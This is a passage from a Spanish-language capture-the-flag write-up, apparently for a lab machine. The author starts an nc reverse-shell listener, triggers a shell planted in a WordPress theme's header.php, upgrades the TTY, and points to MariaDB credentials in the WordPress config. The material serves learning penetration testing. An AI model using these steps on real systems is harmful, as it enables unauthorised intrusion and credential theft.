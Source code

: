 
Ahora tendremos que ejecutar un **Listener** con **ncat** para poder obtener la **Reverse Shell** en nuestra máquina local.

- Listener

    ```bash
    nc -lnvp 4444
    ```

Una vez lo tengamos, nos dirigiremos al navegador a la ruta del archivo "**header.php**".

`http://10.10.203.148/wp-content/themes/twentyfifteen/header.php`

Y obtengo una **Shell** en nuestra máquina local como el usuario **www-data**.

![picture](/assets/images/ejptv2/cold12.png){: w="600" h="300" }


Realizo un tratamiento de la **TTY** para obtener una mejor interacción con la terminal.

```bash
script /dev/null -c bash
Ctrl_Z
stty raw -echo;fg
ls
export SHELL=/bin/bash
export TERM=screen
stty rows 51 columns 208
reset
```

En el archivo de configuración de **Wordpress**, encuentro las credenciales de la base de datos de **MariaDB**.

![picture](/assets/images/ejptv2/cold13.png){: w="600" h="300" }
